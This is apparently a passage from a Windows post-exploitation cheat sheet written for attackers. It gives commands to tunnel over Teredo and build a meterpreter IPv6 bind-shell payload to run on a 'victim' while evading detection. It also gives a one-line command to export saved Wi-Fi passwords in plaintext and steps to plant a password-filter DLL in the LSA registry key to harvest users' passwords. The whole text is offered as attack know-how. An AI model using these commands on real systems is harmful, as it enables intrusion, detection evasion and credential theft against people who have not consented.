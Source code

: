 ### Teredo IPv6 Bindshell
Creating a teredo tunnel to allow a remote victim to tunnel IPv6 packets over IPv4 may allow you to evade some
filter detection systems and extract information from a victim without triggering alerts on the target network.

In order to do this one needs to use a teredo server which will convert IPv4 packets to IPv6 packets and vice versa.
Several publicly available servers are available including:

* teredo.trex.fi
* teredo.remlab.net
* teredo-debian.remlab.net
* teredo.ngix.ne.kr
* win8.ipv6.microsoft.com (This may be shaky on Windows 7, so don't rely on it)

To set up a tunnel, issue the following commands:

```
netsh interface ipv6 install
netsh interface ipv6 teredo enterpriseclient
netsh interface ipv6 teredo set client teredo.trex.fi
msfpayload windows/meterpreter/bind_ipv6_tcp LPORT=5555 X > bind.exe
```

All we have to do at this point is upload the resulting bind.exe payload to the victim, execute it, and then set up
metasploit to connect to the public IPv6 address that the victim was assigned on the specified port (5555 in this example), and we should now be able to get a meterpreter shell using teredo tunneling :)

Further details are available at [http://www.room362.com/blog/2010/09/24/revenge-of-the-bind-shell/](http://www.room362.com/blog/2010/09/24/revenge-of-the-bind-shell/)

### Export Local Wireless Passwords (In Plaintext)
```
netsh wlan export profile key=clear
```

### Capture Password Changes With Password Filters
To do this one simply needs to take the following steps:
* Create a password filtering DLL (see Didler Steven's example password filterer DLL at [http://blog.didierstevens.com/2010/11/15/password-auditing-with-a-password-filter/](http://blog.didierstevens.com/2010/11/15/password-auditing-with-a-password-filter/) if you want an example of some code you can modify to do this)
* Dump the resulting DLL into %WINDIR%\System32\
* Change HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages and add in the location of your DLL as it's value. If the key does not exist, create it first, then set the location as it's value DO NOT ADD IN THE .DLL EXTENSION. (Further details on this stage of the process are detailed at [https://msdn.microsoft.com/en-us/library/windows/desktop/ms721766%28v=vs.85%29.aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms721766%28v=vs.85%29.aspx))
* Reboot the system and wait for passwords to be logged according to the actions defined within your DLL as people change them.
* 
* 

Details on how this works are included in Microsoft's documentation at [https://msdn.microsoft.com/en-us/library/windows/desktop/ms721882%28v=vs.85%29.aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms721882%28v=vs.85%29.aspx)
